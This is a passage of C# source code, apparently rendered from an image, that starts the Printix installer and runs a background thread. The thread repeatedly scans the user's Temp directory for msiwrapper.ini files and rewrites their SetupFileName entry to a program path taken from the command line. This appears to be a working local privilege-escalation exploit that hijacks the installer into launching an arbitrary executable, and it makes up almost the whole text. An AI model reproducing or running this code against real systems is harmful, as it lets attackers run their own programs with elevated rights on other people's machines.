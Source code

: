         //Start a new thread here for enumeration.

        Thread t = new Thread(() => newTempThread(filesH, args));
        t.Start();



        Process.Start(trueInstaller);



        Console.WriteLine("All done.");
        Console.ReadLine();
    }
    public static void newTempThread(string filesH, string[] args)
    {
        while (true)
        {
            try
            {
                //Starts the inheriting process for printix, in which scans for the files and relays their contents.
                string[] files = Directory.GetFiles(@"C:\Users\" + Environment.UserName + @"\AppData\Local\Temp\", "msiwrapper.ini", SearchOption.AllDirectories);
                if (!string.IsNullOrEmpty(files[0]))
                {
                    foreach (string fl in files)
                    {
                        if (!filesH.Contains(fl))
                        {

                            //filesH += " " + fl;
                            string[] fileText = File.ReadAllLines(fl);
                            int linerc = 0;
                            foreach (string liners in fileText)
                            {

                                if (liners.Contains("SetupFileName"))
                                {

                                    //Most likely the temporary directory for setup, which presents it properly.
                                    Console.WriteLine("├─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────");
                                    Console.WriteLine("├ " + fl);
                                    fileText[linerc] = @"SetupFileName=" + "\"" + args[0] + "\"";
                                    Console.WriteLine("├ " + fileText[linerc] + "");
                                    Console.WriteLine("├─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────");
                                    Console.WriteLine("│");
                                    filesH += " " + fl;

                                    File.WriteAllText(fl, string.Empty);
                                    File.WriteAllLines(fl, fileText);
                                }
                                linerc++;
                            }
                        }
                    }
                }
            }
            catch (Exception e) { Console.WriteLine("There was an error, try re-running the program. \n" + e); Console.ReadLine(); }
